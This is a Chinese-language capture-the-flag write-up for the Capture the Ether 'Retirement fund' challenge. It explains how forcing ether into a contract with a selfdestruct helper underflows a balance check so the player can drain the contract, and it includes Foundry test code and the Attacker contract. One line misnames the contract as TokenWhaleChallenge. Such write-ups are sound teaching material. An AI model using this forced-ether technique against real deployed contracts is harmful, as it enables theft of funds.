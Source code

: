 # Retirement fund

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/retirement-fund/)

原题目要求 RetirementFundChallenge 合约的 ether 余额为 0。最开始的时候 owner 会充值 1 ether 到合约。

## 运行

**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Retirement_fund -vvv
```

## 功能简述

在原题 `^0.4.21` 版本下，所有的算术操作都是 unchecked，因此为了能够复现这个 Challenge，我给 collectPenalty 里面的某一行增加了 unchecked。

TokenWhaleChallenge 有两个角色，一个是 owner，他部署了这个合约，并锁定了 1 ether。另一个是 player，如果 owner 提前提走资金，合约的以太币的 10% 会转到 player。

该合约的问题是使用了 `address(this).balance` 来作为判定条件，实际上一个合约的 ether balance 是可以使用出块时 coinbase 的充值或者其他合约的 selfdestruct 来强制改变的。

解决思路是，player 转入合约一定量的 ether，使得 `withdrawn = startBalance - address(this).balance` 成为一个下溢出的数，然后转移所有的资金。

在 testRetirementFund1 测试函数中，尝试直接 RetirementFundChallenge 合约转账失败，因为原合约里面没有实现 fallback/receive 函数

```solidity
        vm.startPrank(hacker);
        vm.expectRevert();
        payable(address(retirementFundChallenge)).transfer(1 wei);

        vm.expectRevert();
        retirementFundChallenge.collectPenalty();
        vm.stopPrank();
```

因此我们需要部署一个辅助合约来强制转移 ether。

这个是辅助合约 Attacker，在执行构造函数的时候就自我销毁，并将余额转入 target 地址。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract Attacker {
    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

然后我们在 testRetirementFund2 里，使用 1 wei 创建 Attacker，这样就能强制将 1 wei 转入 RetirementFundChallenge 合约

```solidity
        vm.startPrank(hacker);
        new Attacker{value: 1 wei}(payable(address(retirementFundChallenge)));

        retirementFundChallenge.collectPenalty();
        vm.stopPrank();
```

